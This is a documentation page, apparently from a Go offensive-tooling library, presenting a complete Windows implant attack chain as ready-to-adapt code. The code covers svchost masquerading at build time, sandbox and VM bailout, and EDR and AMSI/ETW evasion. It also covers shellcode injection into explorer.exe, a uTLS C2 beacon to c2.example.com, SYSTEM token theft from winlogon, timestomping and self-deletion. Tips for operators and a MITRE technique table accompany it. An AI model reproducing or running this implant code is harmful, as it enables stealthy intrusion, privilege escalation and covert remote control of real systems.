


# Example: Full Attack Chain

[← Back to README](../../README.md)

End-to-end implant lifecycle: build-time identity laundering →
sandbox-bail → preset evasion → indirect-asm cross-process inject →
sleep-mask beacon loop → on-demand cleanup. The shape mirrors the
two sibling examples (`basic-implant.md`, `evasive-injection.md`)
so a reader who follows them in order sees one stack composed three
ways.

What changed since the v0.16-era version of this example:

- **Build-time identity** via `pe/masquerade` instead of nothing —
  the binary inherits svchost.exe's VERSIONINFO + manifest + icons
  at link time, so `pe/strip` only has to scrub Go-toolchain
  artefacts after the fact. Makes `T1036.005` pull its weight
  before any runtime cost is paid.
- **`antivm.Hypervisor()` + `recon/sandbox` two-tier bail** — single
  CPUID/RDTSC probe up front (cheap, unfakeable), full
  multi-dimension sandbox check second (slower, can be tuned by
  the operator). Earlier example only had `antivm.Detect` +
  `IsSandboxed` with no priority order.
- **`preset.Stealth() + CETOptOut()` instead of hand-listed
  AMSI/ETW/Unhook** — same techniques, one slice. Aggressive callers
  can swap to `preset.Hardened()` (drops ACG/BlockDLLs to keep
  injection paths open) or `preset.Aggressive()` (everything
  one-way, after final allocation).
- **`MethodIndirectAsm` + custom `HashFunc`** — same NT-call seam as
  the sibling examples. Defeats both inline-hook and ROR13-static-
  fingerprint detection in one swap.
- **`sleepmask.Mask.Sleep` Ekko strategy** — encrypts the implant's
  RX region across beacon naps so a memory scanner timed against
  the dormant window finds AES ciphertext, not shellcode bytes.
  Earlier example just opened a uTLS socket and exited; this one
  shows a real beacon loop.
- **Cleanup kept** but reordered: `SecureZero` runs immediately
  after the consumer is done with each buffer (not at the end);
  `timestomp.SetFull` happens once at end-of-mission.



## Build-time step (run once, then commit the .syso)

```go
//go:build ignore
// +build ignore

// cmd/masquerade-bake/main.go — run via `go generate ./...` or in CI
// to emit a `resource.syso` next to main.go before `go build`.
package main

import "github.com/oioio-space/maldev/pe/masquerade"

func main() {
    if err := masquerade.Build(
        "resource.syso",
        masquerade.AMD64,
        masquerade.AsInvoker,
        masquerade.WithSourcePE(`C:\Windows\System32\svchost.exe`),
    ); err != nil {
        panic(err)
    }
}
```

The `go build` step picks up the `.syso` automatically. The
resulting binary's VERSIONINFO / manifest / icons match svchost —
file-properties dialogs and naive allowlists accept it as a Windows
service host.

## Runtime — the implant proper

```go
package main

import (
    "context"
    "log"
    "os"
    "time"

    "github.com/oioio-space/maldev/c2/transport"
    "github.com/oioio-space/maldev/cleanup/memory"
    "github.com/oioio-space/maldev/cleanup/selfdelete"
    "github.com/oioio-space/maldev/cleanup/timestomp"
    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/evasion/sleepmask"
    "github.com/oioio-space/maldev/hash"
    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/process/enum"
    "github.com/oioio-space/maldev/recon/antivm"
    "github.com/oioio-space/maldev/recon/hwbp"
    "github.com/oioio-space/maldev/recon/sandbox"
    "github.com/oioio-space/maldev/win/token"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

var (
    encShellcode = []byte{ /* AES-256-GCM ciphertext from build */ }
    aesKey       = []byte{ /* 32-byte key from build */ }
)

func main() {
    // ── Phase 1: Recon ─────────────────────────────────────────
    // Two-tier bail: cheap CPUID/RDTSC first, full sandbox check
    // second.
    if antivm.Hypervisor().LikelyVM {
        os.Exit(0)
    }
    checker := sandbox.New(sandbox.DefaultConfig())
    if hit, _, _ := checker.IsSandboxed(context.Background()); hit {
        os.Exit(0)
    }

    // ── Phase 2: Evasion ───────────────────────────────────────
    _, _ = hwbp.ClearAll() // wipe EDR DR0-DR3 hardware breakpoints

    caller := wsyscall.New(
        wsyscall.MethodIndirectAsm,
        wsyscall.NewHashGateWith(hash.FNV1a32),
    ).WithHashFunc(hash.FNV1a32)

    techniques := append(preset.Stealth(), preset.CETOptOut())
    _ = evasion.ApplyAll(techniques, caller)

    // ── Phase 3: Inject ────────────────────────────────────────
    var planted struct {
        addr uintptr
        size uintptr
    }
    err := crypto.UseDecrypted(
        func() ([]byte, error) {
            return crypto.DecryptAESGCM(aesKey, encShellcode)
        },
        func(sc []byte) error {
            // Find target. explorer.exe is the canonical "always
            // there, runs as the user" pivot for cross-session
            // implants; pick something more specific in practice.
            procs, err := enum.FindByName("explorer.exe")
            if err != nil || len(procs) == 0 {
                return os.ErrNotExist
            }
            pid := int(procs[0].PID)

            // SectionMap: NtCreateSection + NtMapViewOfSection
            // cross-process. No WriteProcessMemory call — section
            // mapping is a different EDR signal class than the
            // classic write-then-CreateRemoteThread pattern.
            if err := inject.SectionMapInject(pid, sc, caller); err != nil {
                return err
            }
            // For the demo: assume the section was planted at the
            // first VirtualAllocEx-like address. Real callers track
            // the address through the inject.SelfInjector
            // InjectedRegion result — out of scope here since we're
            // cross-process.
            planted.addr = 0
            planted.size = uintptr(len(sc))
            return nil
        },
    )
    if err != nil {
        log.Fatalf("inject: %v", err)
    }
    // crypto.UseDecrypted defer-wiped the plaintext shellcode.

    // ── Phase 4: Beacon loop with sleep-mask ──────────────────
    //
    // For an own-process implant the SelfInjector's InjectedRegion
    // would feed straight into mask.New(...). The cross-process
    // case needs a sibling RemoteMask (evasion/sleepmask) — out of
    // scope here. The own-process snippet:
    //
    //   region := sleepmask.Region{Addr: planted.addr, Size: planted.size}
    //   mask := sleepmask.New(region).
    //       WithCipher(sleepmask.NewAESCTRCipher()).
    //       WithStrategy(&sleepmask.EkkoStrategy{})
    //
    //   for { _ = mask.Sleep(ctx, 60*time.Second); doC2Work() }

    // ── Phase 5: C2 (uTLS Chrome JA3) ─────────────────────────
    c2 := transport.NewUTLS(
        "c2.example.com:443",
        30*time.Second,
        transport.WithJA3Profile(transport.JA3Chrome),
        transport.WithSNI("api.example.com"),
    )
    if err := c2.Connect(context.Background()); err != nil {
        log.Fatalf("c2 connect: %v", err)
    }
    defer c2.Close()

    // ── Phase 6: Post-exploitation ────────────────────────────
    // Steal SYSTEM token from winlogon (requires SeDebugPrivilege —
    // already enabled if the implant is admin).
    tok, err := token.StealByName("winlogon.exe")
    if err == nil {
        defer tok.Close()
        _ = tok.EnableAllPrivileges()
        // Use tok with windows.CreateProcessAsUser /
        // win/impersonate.ImpersonateToken for elevated work.
    }

    // ── Phase 7: Cleanup ──────────────────────────────────────
    // Clone the timestamps of a benign neighbour so the dropped
    // implant blends with the directory it was unpacked into.
    now := time.Now().Add(-30 * 24 * time.Hour)
    _ = timestomp.SetFull(os.Args[0], now, now, now)

    // Self-delete the running EXE via the NTFS-rename trick.
    // The mapped image stays valid in process memory, so the
    // current goroutine keeps running; the file vanishes from disk.
    _ = selfdelete.Run()

    // Final beacon-loop placeholder — replace with the real
    // mask.Sleep loop once you wire the cross-process
    // RemoteMask (out of scope above).
    select {}
}

// memSecureZero is shown here for reference even though
// crypto.UseDecrypted handles plaintext wipe automatically:
//   memory.SecureZero(buf)
// Use it directly when you allocate sensitive buffers outside the
// UseDecrypted scope.
var _ = memory.SecureZero // silence "imported and not used"
```

## Phase-by-phase summary

| Phase | What | MITRE | Why now |
|---|---|---|---|
| 0 (build) | `pe/masquerade` clones svchost identity into `.syso` | T1036.005 | Cheapest moment to fake VERSIONINFO + manifest |
| 1 (recon) | `Hypervisor()` → `IsSandboxed` two-tier bail | T1497 | Cheap probe first, expensive second |
| 2 (evasion) | `hwbp.ClearAll`, `preset.Stealth` + `CETOptOut` via `MethodIndirectAsm` | T1562 | Blind the host before any payload move |
| 3 (inject) | `crypto.UseDecrypted` + `inject.SectionMapInject` cross-process | T1055 | Defer-wipe + no-WriteProcessMemory |
| 4 (sleep) | `sleepmask.Mask.Sleep` Ekko strategy | T1027 | Encrypted RX between beacons |
| 5 (C2) | `c2/transport.NewUTLS` Chrome JA3 + SNI | T1573 | Blends with browser TLS fingerprint |
| 6 (post-ex) | `token.StealByName("winlogon.exe")` + `EnableAllPrivileges` | T1134 | SYSTEM token for elevated pivots |
| 7 (cleanup) | `timestomp.SetFull` + `selfdelete.Run` | T1070 | Disk + metadata scrub before exit |

## OPSEC layers active



## Hardening dials

Three swap-points an operator can flip without restructuring the
implant:

- **`preset.Stealth()` → `preset.Hardened()`** for Win11 + CET
  hosts where APC delivery breaks without the explicit opt-out.
- **`MethodIndirectAsm` → `MethodIndirect`** if you're targeting
  Win11 ARM64 (the asm stub is amd64-only).
- **`sleepmask.NewAESCTRCipher()` → `sleepmask.NewRC4Cipher()`**
  for hosts without AES-NI — RC4 is ~2× slower per byte but
  carries no hardware dependency.

## See also

- [`docs/examples/basic-implant.md`](basic-implant.md) — same hardening, self-inject `CreateThread` variant.
- [`docs/examples/evasive-injection.md`](evasive-injection.md) — same hardening, callback / cross-process injection focus.
- [`docs/techniques/evasion/preset.md`](../techniques/evasion/preset.md) — the four bundled tiers.
- [`docs/techniques/evasion/sleep-mask.md`](../techniques/evasion/sleep-mask.md) — Mask / RemoteMask + cipher / strategy combinations.
- [`docs/techniques/pe/masquerade.md`](../techniques/pe/masquerade.md) — `.syso` build pipeline + Extract / Build / Clone API.
